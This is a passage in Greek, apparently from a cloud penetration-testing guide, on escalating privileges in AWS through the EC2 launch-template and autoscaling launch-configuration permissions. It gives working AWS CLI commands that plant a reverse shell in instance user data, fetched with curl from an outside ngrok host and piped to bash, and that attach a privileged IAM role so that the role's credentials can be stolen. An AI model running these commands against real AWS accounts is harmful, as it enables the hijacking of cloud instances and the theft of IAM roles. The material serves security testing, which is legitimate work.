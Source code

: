 ### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

Ένας επιτιθέμενος με τα δικαιώματα **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`και `ec2:ModifyLaunchTemplate`** μπορεί να δημιουργήσει μια **νέα έκδοση Launch Template** με ένα **rev shell στο** **user data** και **οποιονδήποτε EC2 IAM Ρόλο σε αυτό**, να αλλάξει την προεπιλεγμένη έκδοση, και **οποιαδήποτε ομάδα Autoscaler** **χρησιμοποιώντας** αυτό το **Launch Template** που είναι **ρυθμισμένο** να χρησιμοποιεί την **τελευταία** ή την **προεπιλεγμένη έκδοση** θα **ξανατρέξει τις παρουσίες** χρησιμοποιώντας αυτό το template και θα εκτελέσει το rev shell.

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
--launch-template-name bad_template \
--launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
--launch-template-name bad_template \
--default-version 2
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων σε διαφορετικό ρόλο EC2.

### `autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`

Ένας επιτιθέμενος με τα δικαιώματα **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** μπορεί να **δημιουργήσει μια Διαμόρφωση Εκκίνησης** με έναν **Ρόλο IAM** και μια **rev shell** μέσα στα **δεδομένα χρήστη**, στη συνέχεια να **δημιουργήσει μια ομάδα αυτόματης κλιμάκωσης** από αυτή τη διαμόρφωση και να περιμένει την rev shell να **κλέψει τον Ρόλο IAM**.
```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
--launch-configuration-name bad_config \
--image-id ami-0c1bc246476a5572b \
--instance-type t3.micro \
--iam-instance-profile EC2-CloudWatch-Agent-Role \
--user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
--auto-scaling-group-name bad_auto \
--min-size 1 --max-size 1 \
--launch-configuration-name bad_config \
--desired-capacity 1 \
--vpc-zone-identifier "subnet-e282f9b8"
```
**Πιθανές Επιπτώσεις:** Άμεση εκχώρηση δικαιωμάτων σε διαφορετικό ρόλο EC2.
